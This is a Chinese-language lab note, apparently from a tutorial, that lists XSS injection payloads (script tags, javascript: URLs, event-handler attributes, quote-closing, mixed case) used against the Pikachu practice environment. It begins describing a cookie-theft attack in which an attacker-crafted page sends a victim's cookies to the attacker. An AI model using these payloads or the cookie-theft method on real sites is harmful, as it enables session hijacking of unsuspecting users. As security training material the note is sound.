 来总结下上述所使用的 XSS 攻击代码吧：

1. 常规 JS 直接注入：

   ```js
   <script>alert('hack')</script>
   ```

2. JavaScript 伪协议注入：

   ```js
   javascript:alert("hack")
   ```

3. 直接注入带事件属性的 html 标签：

   ```js
   <img src="#" onmouseover="alert('hack')">
   ```

3. 闭合 + 注入带有事件属性的 html 标签：

   ```js
   '><img src="#" onmouseover="alert('hack')">
   ```

4. 闭合 + 注入事件属性：

   ```js
   ' onclick="alert('hack')">
   ```

5. JS 关键字大小写混合注入：

   ```js
   <SCriPt>alert('hack')</SCriPt>
   ```

6. 闭合 + 注入 JS：

   ```js
   </script><script>alert('hack')</script>
   ```

# Pikachu XSS 攻击演练

## 一. Cookie 收集

### 攻击原理

[受害者端]访问黑客拟造的包含 XSS Payload 的链接，进而触发 XSS Payload ———> XSS Payload 获取受害者端浏览器中的Cookie，然后将其发给[黑客端] ———> 黑客可结合 CSRF 攻击，进行伪造用户登录等恶意操作

### POST 类型

1. `post.html`：拟造包含 XSS Payload 页面，将其链接发给受害者（前提是受害者端的网站存在 XSS 漏洞），当受害者访问该链接后，XSS Payload 将会在受害者的浏览器中执行，然后将窃取到的数据 Cookie 发给黑客：

   ```js
   // 值得注意的是：攻击成功的前提是受害者已经登录（http://127.0.0.1/pikachu/vul/xss/xsspost/post_login.php）成功
   // 因为访问 http://127.0.0.1/pikachu/vul/xss/xsspost/xss_reflected_post.php 的前提是用户已登录
   http://127.0.0.1/pikachu/pkxss/xcookie/post.html
   ```
